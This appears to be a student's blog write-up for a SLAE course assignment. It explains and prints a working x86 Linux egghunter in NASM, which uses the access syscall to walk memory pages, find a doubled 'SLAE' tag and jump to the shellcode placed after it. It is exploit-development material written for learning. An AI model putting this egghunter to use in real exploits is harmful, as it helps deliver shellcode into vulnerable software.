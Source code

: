 ```yaml
---
title:  Assignment 3
description: Create an Egghunter
order: 3
---
```


[&lt;&lt; Go Back]({{ site.baseurl }})


# {{ page.title }}
### {{ page.description }}
___
<div style="text-align:right;direction:ltr;margin-left:1em;"><h6>{{ page.date }}</h6></div>

An egghunter is simply a small piece of shellcode that looks for other shellcode, mostly used when severly limited in space.  The shellcode we will be building has a loop with two parts:
 - Find an accessible page of memory
 - Increment through each byte looking for a *tag*
 
 In our case, we'll use SLAESLAE as our *tag*, or `\x53\x4c\x41\x45\x53\x4c\x41\x45`.  Let's have a look at the shellcode:
 
 ```nasm
; egghunter.nasm
;  - Search memory for tag, then pass over execution

global _start

section .text
_start:

        ; int access(const char *pathname, int mode)
        ; eax = 0x21 (access)
        ; ebx = [edx +4]
        ; ecx = 0x0

page:
        or dx, 0xfff            ; increment page

search:
        inc edx                 ; increment
        xor eax, eax
        mov al, 0x21            ; access, 33
        lea ebx, [edx +4]       ; pathname
        xor ecx, ecx            ; mode
        int 0x80                ; execute

        cmp al, 0xf2
        je page                 ; is accessible?

        mov eax, 0x45414c53     ; tag, SLAE
        mov edi, edx
        scasd                   ; compare to tag
        jne search
        scasd                   ; compare to tag
        jne search

        jmp edi                 ; found!
 ```

To check for memory access, we used the **access** function.  This allows us to search large spaces in memory without worrying about triggering an exception.  We then proceed to increment our pointer until the *tag* SLAE is found twice in a row, at which time we *jmp* to the newly found shellcode.

You can find the all the code to this challenge at [https://github.com/johneiser/SLAE/tree/master/assignments/Assignment_3](https://github.com/johneiser/SLAE/tree/master/assignments/Assignment_3).

<br>
{% include preamble.md %}

[&lt;&lt; Go Back]({{ site.baseurl }})
